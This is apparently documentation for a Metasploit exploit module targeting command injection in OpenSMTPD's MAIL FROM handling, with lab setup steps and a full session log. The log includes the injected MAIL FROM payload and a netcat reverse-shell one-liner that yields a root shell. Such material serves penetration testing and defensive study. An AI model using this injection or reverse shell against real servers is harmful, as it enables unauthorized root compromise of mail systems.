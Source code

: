 ## Vulnerable Application

### Description

This module exploits a command injection in the `MAIL FROM` field during
SMTP interaction with OpenSMTPD to execute a command as the root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system, noting the domain name (defaults to `foo.my.domain` in VirtualBox)
3. Configure the following settings in `/etc/mail/smtpd.conf`:
  * `listen on all`
  * `match from any for domain "foo.my.domain" action "local_mail"`
4. Execute `/etc/rc.d/smtpd restart` to restart OpenSMTPD
5. Execute `ifconfig` and look for an appropriate target IP

### Targets

```
Id  Name
--  ----
0   OpenSMTPD >= commit a8e222352f
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RCPT_TO**

Set this to a valid mail recipient. The default is `root`.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/smtp/opensmtpd_mail_from_rce
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > show missing

Module options (exploit/unix/smtp/opensmtpd_mail_from_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set rhosts 192.168.56.133
rhosts => 192.168.56.133
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.133:25 - Connecting to OpenSMTPD
[*] 192.168.56.133:25 - Saying hello and sending exploit
[*] 192.168.56.133:25 - Expecting: /220.*OpenSMTPD/
[+] 192.168.56.133:25 - Received: 220 foo.my.domain ESMTP OpenSMTPD
[*] 192.168.56.133:25 - Sending: HELO oKFMWnrTJZjTbzkGfVMsyDy7pO35ze
[*] 192.168.56.133:25 - Expecting: /250.*pleased to meet you/
[+] 192.168.56.133:25 - Received:
250 foo.my.domain Hello oKFMWnrTJZjTbzkGfVMsyDy7pO35ze [192.168.56.1], pleased to meet you
[*] 192.168.56.133:25 - Sending: MAIL FROM:<;for J in V e E n U T w v A K M a 0 s x;do read;done;sh;exit 0;>
[*] 192.168.56.133:25 - Expecting: /250.*Ok/
[+] 192.168.56.133:25 - Received:
250 2.0.0 Ok
[*] 192.168.56.133:25 - Sending: RCPT TO:<root>
[*] 192.168.56.133:25 - Expecting: /250.*Recipient ok/
[+] 192.168.56.133:25 - Received:
250 2.1.5 Destination address valid: Recipient ok
[*] 192.168.56.133:25 - Sending: DATA
[*] 192.168.56.133:25 - Expecting: /354 Enter mail.*itself/
[+] 192.168.56.133:25 - Received:
354 Enter mail, end with "." on a line by itself
[*] 192.168.56.133:25 - Sending:
#
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/eizzy; nc 192.168.56.1 4444 0</tmp/eizzy | /bin/sh >/tmp/eizzy 2>&1; rm /tmp/eizzy
[*] 192.168.56.133:25 - Sending: .
[*] 192.168.56.133:25 - Expecting: /250.*Message accepted for delivery/
[+] 192.168.56.133:25 - Received:
250 2.0.0 ccd8e419 Message accepted for delivery
[*] 192.168.56.133:25 - Sending: QUIT
[*] 192.168.56.133:25 - Expecting: /221.*Bye/
[+] 192.168.56.133:25 - Received:
221 2.0.0 Bye
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.133:16126) at 2020-02-05 16:16:59 -0600

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.my.domain 6.6 GENERIC#353 amd64
```

